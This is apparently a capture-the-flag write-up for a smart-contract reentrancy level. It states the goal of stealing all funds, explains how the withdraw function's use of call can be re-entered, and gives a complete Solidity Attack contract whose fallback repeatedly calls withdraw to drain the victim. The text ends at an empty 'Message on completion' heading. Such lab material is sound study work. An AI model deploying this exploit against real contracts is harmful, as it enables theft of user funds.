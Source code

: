         function() payable {}
    }

=========================

### Goal
* Steal all the funds from the contract.

=========================

### Solution

The trick to this attack is to take advantage of the fact that call is used to transfer value in the withdraw function.

We should first instantiate the Attack contract with a value of 1 ether.

We should then call the donateToVictim function which calls executes the donate function in the Reentrance contract, topping up the balance.

If we now call the launchAttack function, it will then execute the withdraw function in the Reentrance contract, with an argument of 1 ether. Inside the withdraw function, we should pass the first conditional, then send the caller (the Attack contract in this case) the total given amount (again, 1 ether).

However, when our contract receives the ether, the fallback function is executed, which again calls the withdraw function...

This process continues itself until all ether has been withdrawn from the victim contract.

    contract Attack {
        
        address target;
        
        function Attack(address _target) public payable {
            target = _target;
        }
        
        function withdraw() public {
            msg.sender.transfer(this.balance);
        }
        
        function donateToVictim() public {
            Reentrance(target).donate.gas(100000000).value(this.balance)(this);
        }
        
        function launchAttack() public {
            Reentrance(target).withdraw(1 ether);
        }
        
        function() public payable {
            Reentrance(target).withdraw(1 ether);
        }
    }

=========================

### Message on completion

